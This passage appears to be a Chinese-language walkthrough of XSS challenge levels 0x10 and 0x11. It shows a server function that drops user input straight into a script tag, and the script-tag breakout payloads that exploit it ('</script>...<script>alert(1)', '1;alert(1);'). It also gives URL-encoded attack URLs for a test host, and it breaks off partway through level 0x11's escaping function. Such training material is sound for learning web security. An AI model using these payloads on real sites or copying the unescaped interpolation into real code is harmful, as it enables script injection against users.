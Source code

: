 ## 0x10

- server 源码

- 闭合标签
- 堆叠注入

```php
function render (input) {
  return `
<script>
  window.data = ${input}
</script>
  `
}
```

- 插入代码

```html
</script>``<script>alert(1)
1;alert(1);

```

- 网页代码

```html
<script>
  window.data = </script>`
`<script>alert(1)
</script>

<script>
  window.data = 1;alert(1);
</script>
```

- URL

```url
http://xss.test/?input=%3C%2Fscript%3E%60%0A%60%3Cscript%3Ealert(1)

http://xss.test/?input=1%3Balert(1)%3B
```

## 0x11

- server 源码



```php
// from alf.nu
function render (s) {
  function escapeJs (s) {
    return String(s)
            .replace(/\\/g, '\\\\')
            .replace(/'/g, '\\\'')
            .replace(/"/g, '\\"')
            .replace(/`/g, '\\`')
            .replace(/</g, '\\74')
            .replace(/>/g, '\\76')
            .replace(/\//g, '\\/')
            .replace(/\n/g, '\\n')
            .replace(/\r/g, '\\r')
            .replace(/\t/g, '\\t')
            .replace(/\f/g, '\\f')
            .replace(/\v/g, '\\v')
```